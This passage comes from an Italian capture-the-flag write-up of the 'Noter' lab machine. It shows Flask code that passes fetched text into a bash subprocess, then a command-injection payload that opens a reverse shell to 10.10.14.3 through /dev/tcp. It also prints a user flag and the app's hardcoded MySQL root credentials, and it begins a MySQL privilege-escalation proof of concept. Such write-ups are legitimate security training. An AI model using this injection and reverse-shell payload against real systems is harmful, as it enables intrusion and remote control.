 ```console
```

Scaricando i file abbiamo i sorgenti.

## 4. RCE
In `app.py` relativo a `app_backup_1638395546.zip` si denota l'utilizzo di *subprocess* che ci indica il sink della RCE.

```console
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")
```

Come si denota dal codice la condizione affinchè funzioni è che bisogna esportare una nota ed in particolare si deve farlo con la form che permette di inserire un URL.

L'idea quindi è:
- avere una shell (`a'; bash -i >& /dev/tcp/10.10.14.3/9091 0>&1; echo 'a`)
- avere un server python con il quale poter caricare la shell
- inserire come url `http://<mio_ip>:<port>/rev.md`

Dopo aver effettuato tali passaggi si ha la shell ed in "*/home/svc*" si ha la user flag: `d83209479b8d7ae19ad998813daf78dc`

## 5. Boot To Root
In `app.py` relativo a `app_backup_1635803546.zip` si hanno in chiaro le credenziali del DB:

```
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
```

Quindi cercando su Google, come fare privilege escalation attraverso queste info, ho trovato questo [link](https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf#:~:text=Functions%20are%20a%20block%20of,tasks%20related%20to%20their%20systems.), nella quale c'è la spiegazione completa del possibile attacco.

### 5.1 POC
#
Verifichiamo dapprima che ci sia un processo in locale sulla porta 3306:

```console
svc@noter:/dev/shm$ netstat -punta
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1262/python3        
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
```